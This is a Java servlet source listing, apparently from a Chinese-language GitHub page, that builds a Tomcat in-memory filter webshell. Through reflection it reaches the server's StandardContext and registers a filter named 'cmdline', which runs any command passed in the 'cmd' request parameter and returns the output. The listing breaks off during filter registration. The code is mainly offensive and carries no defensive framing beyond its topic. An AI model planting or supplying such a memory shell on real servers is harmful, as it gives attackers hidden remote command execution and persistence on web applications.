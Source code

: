 ```java
@WebServlet("/filter")
public class FilterDemo extends HttpServlet {
    protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException{
        Field Configs = null;
        Map filterConfigs;
        try{//反射获取ApplicationContext中的context
            ServletContext servletContext = request.getSession().getServletContext();//得到web应用的servletContext
            Field appctx = servletContext.getClass().getDeclaredField("context");
            appctx.setAccessible(true);
            ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
            Field stdctx = applicationContext.getClass().getDeclaredField("context");
            stdctx.setAccessible(true);
            StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

            String FilterName = "cmdline";
            Configs = standardContext.getClass().getDeclaredField("filterConfigs");
            Configs.setAccessible(true);
            //赋值给filterConfigs并强转换
            filterConfigs = (Map) Configs.get(standardContext);;
            //反射获取filterConfigs
            //如果有自定义的那个FilterName
            if(filterConfigs.get(FilterName)==null){
                Filter filter = new Filter() {
                    @Override
                    public void init(FilterConfig filterConfig) throws ServletException {

                    }

                    @Override
                    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
                        //命令执行
                        HttpServletRequest hsreq = (HttpServletRequest) request;//强转HttpServletRequest
                        if (hsreq.getParameter("cmd")!=null){//cmd传参
                            InputStream inputStream = Runtime.getRuntime().exec(hsreq.getParameter("cmd")).getInputStream();
                            Scanner scanner = new Scanner(inputStream).useDelimiter("\\A");
                            String output = scanner.hasNext() ? scanner.next() : "";
                            response.getWriter().write(output);
                            return;
                        }
                        chain.doFilter(request, response);
                    }

                    @Override
                    public void destroy() {

                    }
                };
                //反射获取FilterDef
                Class<?> FilterDef = Class.forName("org.apache.tomcat.util.descriptor.web.FilterDef");
                Constructor declaredConstructor = FilterDef.getDeclaredConstructor();//获取所有构造方法
                FilterDef o = (FilterDef) declaredConstructor.newInstance();
                o.setFilter(filter);
                o.setFilterName(FilterName);
                o.setFilterClass(filter.getClass().getName());
                standardContext.addFilterDef(o);
                //反射获取FilterMaps
```